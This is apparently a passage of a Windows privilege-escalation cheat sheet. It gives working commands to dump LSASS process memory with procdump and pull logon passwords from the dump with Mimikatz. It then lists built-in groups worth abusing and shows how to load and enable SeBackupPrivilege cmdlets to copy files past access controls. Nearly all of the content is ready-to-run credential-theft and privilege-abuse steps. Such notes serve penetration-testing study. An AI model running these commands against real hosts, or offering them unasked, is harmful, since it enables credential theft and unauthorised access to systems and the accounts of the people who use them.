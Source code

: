 #### Using procdump
```cmd.exe
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```
Take memory dump with ProcDump

#### Using Mimikatz to extract credentials
```cmd.exe
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```
Use MimiKatz to extract credentials from LSASS memory dump

## Windows Built-in Groups

#### Groups to check:
- Backup Operators
- Hyper-V Administrators
- Event Log Readers
- Print Operators
- DnsAdmins
- Server Operators

## Backup Operators
- Privileges:
	- SeRestore
	- SeBackupPrivilege: Allows us to traverse any folder and list the folder contents. This will let us copy a file from a folder, even if there is no access control entry (ACE) for us in the folder's access control list (ACL). However, we can't do this using the standard copy command. Instead, we need to programmatically copy the data, making sure to specify the `FILE_FLAG_BACKUP_SEMANTICS` flag.

#### Importing Libraries
```PowerShell
Import-Module .\SeBackupPrivilegeUtils.dll
```

```PowerShell
Import-Module .\SeBackupPrivilegeCmdLets.dll
```

#### Verifying SeBackupPrivilege is Enabled
```PowerShell
whoami /priv
```
PowerShell command to verify that SeBackupPrivilege is enabled on the host

#### Enabling SeBackupPrivilege
```PowerShell
Set-SeBackupPrivilege
```

```PowerShell
Get-SeBackupPrivilege
```
Enables SeBackupPrivilege if it was disabled
